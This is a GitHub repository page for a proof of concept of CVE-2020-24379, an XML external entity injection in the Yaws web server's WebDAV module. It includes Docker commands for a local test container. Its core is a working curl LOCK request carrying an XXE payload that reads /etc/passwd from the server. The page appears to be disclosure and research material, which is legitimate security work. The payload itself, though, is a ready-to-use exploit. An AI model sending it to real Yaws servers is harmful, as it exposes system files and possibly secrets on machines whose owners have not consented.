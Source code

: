 # poc-yaws-dav-xxe

Yaws web server XML external entity injection POC 

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/vulnbe](https://github.com/vulnbe) |
| Url      | [https://github.com/vulnbe/poc-yaws-dav-xxe](https://github.com/vulnbe/poc-yaws-dav-xxe)                                               |
| Stars    | 0                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2020-24379

</details>

## Readme

# XXE in Yaws web server (CVE-2020-24379)

## Proof of concept

Build test image:

`docker build -t vulnbe/yaws-pocs:xxe-dav-mod -f Dockerfile .`

and/or

Run container `docker run --rm -d -i -p 127.0.0.1:8000:8080 vulnbe/yaws-pocs:xxe-dav-mod`

Then run:

```xml
curl -i -s -k -X LOCK http://localhost:8000/ -H 'Timeout: Second-1' \
  --data-binary @- << EOF
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "file:///etc/passwd">
]>
<d:lockinfo xmlns:d="DAV:">
  <d:lockscope><d:exclusive/></d:lockscope>
  <d:locktype><d:write/></d:locktype>
  <d:owner>
  <d:href><r>&sp;</r></d:href>
  </d:owner>
  </d:lockinfo>
EOF
```

## Credit

Alexey Pronin ([@vulnbe](https://twitter.com/vulnbe))

## References

* [Vulnerability analysis](https://vuln.be/post/yaws-xxe-and-shell-injections/)
* [Yaws on github](https://github.com/erlyaws/yaws)
* [CVE-2020-24379](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-24379)
* [CWE-611: Improper Restriction of XML External Entity Reference](https://cwe.mitre.org/data/definitions/611.html)



## Get the content

```
git clone https://github.com/vulnbe/poc-yaws-dav-xxe
cd poc-yaws-dav-xxe
```

{% embed url="https://github.com/vulnbe/poc-yaws-dav-xxe" %}

<figure><img src="https://avatars.githubusercontent.com/u/24279065?v=4" alt=""><figcaption><p>vulnbe</p></figcaption></figure>
